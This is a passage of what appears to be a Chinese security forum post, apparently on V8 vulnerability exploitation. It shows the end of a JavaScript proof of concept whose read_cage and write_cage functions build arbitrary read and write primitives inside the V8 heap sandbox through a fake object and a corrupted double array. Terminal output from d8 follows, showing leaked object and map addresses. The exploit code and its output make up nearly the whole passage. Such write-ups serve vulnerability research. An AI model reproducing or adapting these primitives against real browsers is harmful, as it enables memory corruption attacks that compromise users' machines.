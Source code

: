 ```
        big_double_array[(fake_obj_addr-const_double_data_addr)/8 + 1] = pair_u32_to_f64(addr-8, 0x4);
        f64_to_u64(evil_array[0]);
        return u32[0];
}
 
function write_cage(addr, val) {
        big_double_array[(fake_obj_addr-const_double_data_addr)/8 + 1] = pair_u32_to_f64(addr-8, 0x4);
        read_cage(addr);
        u32[0] = va1;
        evil_array[0] = f64[0];
}
 
var test = [1.1, 2.2];
var test_address = addressOf(test);
var map_address = read_cage(test_address);
hexx("address", test_address);
hexx("map_address", map_address);
%DebugPrint(test);
 
print("[+] END!");
 
 
/*
 xiaozaya@vm:~/rubbish/nn$ ./d8 poc.js --allow-natives-syntax
[+] arb_write_value: 0x44414900
[+] GO
[+] address: 0x21f111
[+] map_address: 0x18eb55
DebugPrint: 0xf150021f111: [JSArray]
 - map: 0x0f150018eb55 [FastProperties]
 - prototype: 0x0f150018e4c9 - elements: 0x0f150021f129 [PACKED_DOUBLE_ELEMENTS]
 - length: 2
 - properties: 0x0f15000006fd - All own properties (excluding elements): {
    0xf1500000d71: [String] in ReadOnlySpace: #length: 0x0f1500287a3d , data= 0x0f1500000069 > (const accessor descriptor), location: descriptor
 }
 - elements: 0x0f150021f129 {
           0: 1.1
           1: 2.2
 }
0xf150018eb55: [Map] in OldSpace
 - map: 0x0f15001837c9 )>
 - type: JS_ARRAY_TYPE
 - instance size: 16
 - inobject properties: 0
 - unused property fields: 0
 - elements kind: PACKED_DOUBLE_ELEMENTS
 - enum length: invalid
 - back pointer: 0x0f150018eb15 - prototype_validity cell: 0x0f1500000a61 - instance descriptors #1: 0x0f150018eae1 - transitions #1: 0x0f150018eb7d Transition array #1:
     0x0f1500000e35 : (transition to HOLEY_DOUBLE_ELEMENTS) -> 0x0f150018eb95 - prototype: 0x0f150018e4c9 - constructor: 0x0f150018e1c1 - dependent code: 0x0f150000070d - construction counter: 0
 
[+] END!
 */ 
```

[[培训] 科锐软件逆向 50 期预科班报名即将截止，速来！！！ 50 期正式班报名火爆招生中！！！](https://mp.weixin.qq.com/s/HFghXQRTiTlk6oRKGotpHA)

最后于 2 天前 被 XiaozaYa 编辑 ，原因：

[#漏洞分析](forum-150-1-153.htm) [#漏洞利用](forum-150-1-154.htm) [#Linux](forum-150-1-161.htm)